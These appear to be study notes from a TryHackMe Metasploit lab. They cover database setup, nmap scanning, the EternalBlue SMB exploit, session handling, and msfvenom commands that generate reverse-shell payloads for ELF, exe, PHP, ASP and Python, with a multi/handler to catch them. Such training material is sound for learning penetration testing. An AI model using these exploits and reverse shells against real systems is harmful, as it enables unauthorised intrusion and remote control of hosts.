 **Metasploit Database**
- ``` systemctl start postgresql ```
- ``` msfdb init ```
- ``` msf6 > db_status ```
- ``` msf6 > workspace ```
- ``` msf6 > workspace -a tryhackme ``` add; ``` -d ``` delete
- ``` workspace -h ```

db_nmap
- ``` msf6 > db_nmap -sV -p- 10.10.12.229 ``` run nmap, result saved to the database.
- ``` msf6 > hosts ```, ``` msf6 > services ``` show saved information.
- ``` hosts -h ```, ``` services -h ``` 

usage
- ``` use auxiliary/scanner/smb/smb_ms17_010 ```
- ``` hosts -R ``` add hosts value to the RHOSTS parameter
- ``` msf6 > services -S netbios ``` search "netbios" in services

low-hanging fruits
- HTTP, FTP, SMB, SSH, RDP

**Exploitation**
- ``` msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads ``` list other commands you can use with that specific exploit.
- ``` msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2 ```
- background it using ``` CTRL+Z ``` or abort it using ``` CTRL+C ```
- ``` msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions ``` show sessions, include background.

**Working with sessions**
- ``` msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h ``` help
- ``` msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1 ``` interact with session 1.

example
- ``` nmap -sC -sV -p- -T4 --min-rate=9326 -vv [MACHINE IP] ```

**Msfvenom**
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- ``` # msfvenom -l payloads ```
- ``` # msfvenom --list formats ```

encode
- ``` # msfvenom -p php/meterpreter/reverse_tcp LHOST={IP} -f raw -e php/base64 ``` The PHP version of Meterpreter was encoded in Base64, and the output format was raw.

**Handlers**
- The term commonly used to receive a connection from a target is 'catching a shell'.
- Can be easily caught using a handler.
- ``` # msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php ```
- ``` use exploit/multi/handler ``` Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.

**Other Payloads**
- Linux Executable and Linkable Format (elf)
- ``` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf ```
- ``` set payload linux/x86/meterpreter/reverse_tcp ```
- Windows
- ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe ```
- PHP
- ``` msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php ```
- ASP
- ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp ```
- Python
- ``` msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py ```